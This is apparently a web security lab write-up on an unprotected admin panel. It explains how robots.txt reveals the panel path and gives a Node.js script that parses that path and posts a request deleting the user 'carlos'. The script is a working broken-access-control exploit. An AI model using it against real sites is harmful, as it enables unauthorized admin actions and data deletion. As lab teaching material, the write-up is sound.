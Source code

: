 # 1 - Unprotected Admin

This lab has an unprotected admin panel. Solve the lab by deleting the user `carlos`.

### Notes

The application's `robots.txt` reveals the location of an admin panel that is not properly secured:

```
User-agent: *
Disallow: /administrator-panel
```

From here, we can simply navigate to the panel and delete `carlos`.

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  // Get admin panel URI
  const robotsTxtRes = await axios.get(`${labUrl}/robots.txt`)
  // Get second-to-last line of response body
  let adminUri = robotsTxtRes.data.split(/\r?\n/)
  adminUri = adminUri[adminUri.length - 2]
  // Get last word of last line
  adminUri = adminUri.split(' ')
  adminUri = adminUri[adminUri.length - 1]

  // Delete 'carlos'
  await axios.post(`${labUrl}${adminUri}/delete`, 'username=carlos')
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })

```
